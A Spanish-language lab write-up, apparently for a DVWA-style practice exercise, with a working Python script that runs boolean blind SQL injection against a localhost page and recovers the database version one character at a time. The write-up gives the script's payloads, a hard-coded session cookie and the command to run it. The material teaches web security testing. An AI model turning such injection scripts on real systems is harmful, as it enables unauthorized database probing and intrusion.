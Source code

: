 # 2.7- Blind SQLi

En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

```python

import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1


```

## LOW y MID
Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

![Imagen](./images/dbVersion.png)


